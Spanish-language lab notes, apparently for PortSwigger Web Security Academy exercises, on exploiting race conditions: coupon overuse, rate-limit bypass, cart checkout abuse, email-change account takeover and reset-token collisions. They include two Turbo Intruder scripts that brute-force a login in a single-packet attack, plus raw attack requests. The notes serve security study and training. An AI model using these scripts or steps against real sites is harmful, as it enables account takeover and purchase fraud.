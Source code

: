 Las condiciones de carrera son un tipo común de vulnerabilidad estrechamente relacionada con los defectos de la lógica empresarial. Se producen cuando los sitios web procesan las solicitudes simultáneamente sin las salvaguardias adecuadas. Esto puede llevar a múltiples hilos distintos interactuando con los mismos datos al mismo tiempo, resultando en una "colisión" que causa un comportamiento no intencionado en la aplicación. Un ataque con condición de carrera utiliza peticiones cuidadosamente cronometradas para causar colisiones intencionales y explotar este comportamiento no deseado con fines maliciosos.

* Limit overrun race conditions -> 
```
Rebajar precio de un item con un codigo de descuento enviar la request varias veces IMPORTANTE EN UN `SEND GROUP IN PARALLEL` duplicar las requests las veces que sean necesarias hasta poder conseguir realmente el descuento del precio en $0 o casi $0
```

* Bypassing rate limits via race conditions -> `login brute force password` **en la request poner en password=%s para que lea el payload esa parte que es la que se atacará.**
```python
"""
Para hacer un brute force, de la contraseña del user victim en este caso `carlos`
Pero se mantiene un rate limit en el lab, con race condition se puede bypassear: 

Usar la lista de password de `Passwords List`
Con TURBO INTRUDER - Tiramos el código (importante tener las passwords en el portapapeles/clipboard)
"""

def queueRequests(target, wordlists):

    # as the target supports HTTP/2, use engine=Engine.BURP2 and concurrentConnections=1 for a single-packet attack
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )
        
    # queue a login request using each password from the wordlist
    # the 'gate' argument withholds the final part of each request until engine.openGate() is invoked
    for password in wordlists.clipboard:
        engine.queue(target.req, password, gate='1')
    
    # once every request has been queued
    # invoke engine.openGate() to send all requests in the given gate simultaneously
    engine.openGate('1')


def handleResponse(req, interesting):
    table.add(req)

""" Reconocer el endpoint que retorne un 302 OK, esa será efectivamente la password, este ataque sirve en caso tal de poder encontrar un race condition en la option de login/ 
```

* Multi-endpoint race conditions -> `Ataque Parallel single connection`
	*  3 Request en total dentro de una race condition.
```js
Un POST /cart/checkout HTTP/2 que haga el checkout y añadimos DOS 2 request de 
añadir la chaqueta que queremos comprar porque deseamos lograr la sincronización de la peticiones aprovechandonos de la condición de carrera haciendo que cuando compre una gift card la interpreté la race condition con la compra de la jacket sin validar el precio con el credit store de $100 que tenía en la aplicación.
```

* Single-Endpoint Race Conditions -> `Paralell single packet attack`
```js
2 request dentro de un parallel single packet attack -> 
	* POST Cambio de correo electronico de wiener con el correo @exploit-server 
	* POST cambio de correo electronico de Carlos 

*. email=wiener@exploit-server.net&csrf=valueCSRF
*. email=carlos@juiceandshop.net&csrf=valueCSRF

Nos llegará al exploit server el correo electronico de cambio de carlos, tomamos el endpoint dejamos nuestro username wiener y nos apropiamos del correo de carlos, tipicamente un account takeover. 
```

* Exploiting time-sensitive - Race Condition -> `Parallel Single packet attack`
```js
2 request dentro de un parallel single packet attack ->
	* GET /forgot-password HTTP/2 //to get csrf token
	* POST /forgot-password HTTP/2
		username=wiener&csrf=valueCSRF
	* POST /forgot-password HTTP/2
		username=carlos&csrf=valueCSRF
* Nos llegará un solo correo de reset token, el problema radica en que a carlos le llegará un token de forgot password identico, nosotros usaremos el token para cambiar la password de carlos, ya que el token de el y el que llega a wiener son el mismo. 
* Cambiar la contraseña del endpoint GET /forgot-password?user=carlos&token=VALUEToken
```

<hr>

Tips - de mi amigo @krakenEU

**To identify:**

- Try seeing if the condition is attached to a session for example, there may be a time lapse between the client submit and the server actually committing the action. Or the lock is applied per user not session

**To exploit:**

- Try applying coupons in group (send in parallel)
- If a delay is noticed in a response, try racing the expensive item having a cheaper one. Add Item + purchase requests in parallel
- Try 2 requests to see if you can recieve the code of an arbitrary mail. You mail server + arbitrary mail in parallel 
- Try seeing if php cookies are set on forgot password for example, send two change password requests, one with the cookie and csrf of null session. If you get same token on the email you found a collision that takes only a timestamp but not user, change the username to carlos on the first request and send again in parallel, copy your link and change the user to carlos to access his password reset link.
- Brute Force with Turbo Intruder Extension Turbo Intruder template, takes wordlist from clipboard

```python
def queueRequests(target, wordlists):
    # as the target supports HTTP/2, use engine=Engine.BURP2 and concurrentConnections=1 for a single-packet attack
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )  
    # assign the list of candidate passwords from your clipboard
    passwords = wordlists.clipboard 
    # queue a login request using each password from the wordlist
    # the 'gate' argument withholds the final part of each request until engine.openGate() is invoked
    for password in passwords:
        engine.queue(target.req, password, gate='1')
    # once every request has been queued
    # invoke engine.openGate() to send all requests in the given gate simultaneously
    engine.openGate('1')


def handleResponse(req, interesting):
    table.add(req)
```
